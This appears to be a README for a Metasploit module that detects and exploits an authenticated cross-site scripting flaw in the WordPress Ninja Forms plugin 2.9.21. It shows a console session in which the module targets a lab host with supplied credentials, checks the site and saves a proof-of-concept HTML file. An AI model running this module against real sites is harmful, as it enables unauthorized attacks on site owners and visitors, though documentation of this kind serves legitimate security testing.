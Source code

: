 #### Add WordPress Plugin Ninja Forms XSS Vulnerability.

  Application: WordPress Plugin 'Ninja Forms' 2.9.21
  Homepage: https://wordpress.org/plugins/ninja-forms
  Source Code: https://downloads.wordpress.org/plugin/ninja-forms.2.9.21.zip
  References: https://wpvulndb.com/vulnerabilities/8128
  Active Install: +200.000

#### Vulnerable packages*
        
  2.9.21

#### Module

  [wp_ninja_forms_xss_scanner.rb](https://github.com/espreto/wpsploit/blob/master/modules/auxiliary/scanner/http/wordpress/wp_ninja_forms_xss_scanner.rb)
  
#### Usage:

##### Linux (Ubuntu 14.04.2 LTS):
```
msfdevel 10.10.10.10 shell[s]:0 job[s]:0 msf>  use auxiliary/scanner/http/wp_ninja_forms_xss_scanner 
msfdevel 10.10.10.10 shell[s]:0 job[s]:0 msf> auxiliary(wp_ninja_forms_xss_scanner)  show options 

Module options (auxiliary/scanner/http/wp_ninja_forms_xss_scanner):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target address range or CIDR identifier
   RPORT      80               yes       The target port
   TARGETURI  /                yes       The base path to the wordpress application
   THREADS    1                yes       The number of concurrent threads
   VHOST                       no        HTTP server virtual host
   WP_PASS                     yes       A valid password
   WP_USER                     yes       A valid username

msfdevel 10.10.10.10 shell[s]:0 job[s]:0 msf> auxiliary(wp_ninja_forms_xss_scanner)  info

       Name: WordPress Ninja Forms XSS Scanner
     Module: auxiliary/scanner/http/wp_ninja_forms_xss_scanner
    License: Metasploit Framework License (BSD)
       Rank: Normal
  Disclosed: 2015-07-14

Provided by:
  Morten Nørtoft, Kenneth Jepsen, Mikkel Vej
  Roberto Soares Espreto <robertoespreto@gmail.com>

Basic options:
  Name       Current Setting  Required  Description
  ----       ---------------  --------  -----------
  Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
  RHOSTS                      yes       The target address range or CIDR identifier
  RPORT      80               yes       The target port
  TARGETURI  /                yes       The base path to the wordpress application
  THREADS    1                yes       The number of concurrent threads
  VHOST                       no        HTTP server virtual host
  WP_PASS                     yes       A valid password
  WP_USER                     yes       A valid username

Description:
  This module attempts to exploit an Authenticated Cross-Site 
  Scripting in Ninja Forms Plugin for WordPress, version 2.9.21 and 
  likely prior in order if the instance is vulnerable.

References:
  https://wpvulndb.com/vulnerabilities/8128
  https://packetstormsecurity.com/files/132913/

msfdevel 10.10.10.10 shell[s]:0 job[s]:0 msf> auxiliary(wp_ninja_forms_xss_scanner)  set RHOSTS 10.10.10.20
RHOSTS => 10.10.10.20
msfdevel 10.10.10.10 shell[s]:0 job[s]:0 msf> auxiliary(wp_ninja_forms_xss_scanner)  set WP_USER espreto
WP_USER => espreto
msfdevel 10.10.10.10 shell[s]:0 job[s]:0 msf> auxiliary(wp_ninja_forms_xss_scanner)  set WP_PASS R@x0rP@55
WP_PASS => R@x0rP@55
msfdevel 10.10.10.10 shell[s]:0 job[s]:0 msf> auxiliary(wp_ninja_forms_xss_scanner)  check
[*] 10.10.10.20:80 - The target appears to be vulnerable.
[*] Checked 1 of 1 hosts (100% complete)
msfdevel 10.10.10.10 shell[s]:0 job[s]:0 msf> auxiliary(wp_ninja_forms_xss_scanner)  run

[+] 10.10.10.20:80 - Vulnerable to Cross-Site Scripting the Ninja Forms 2.9.21 plugin for WordPress
[+] Save in: /home/espreto/.msf4/local/script.html
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msfdevel 10.10.10.10 shell[s]:0 job[s]:0 msf> auxiliary(wp_ninja_forms_xss_scanner)  firefox /home/espreto/.msf4/local/script.html
```
This will open the browser:

![XSS](../images/wp_ninja_forms_xss_scanner.png)
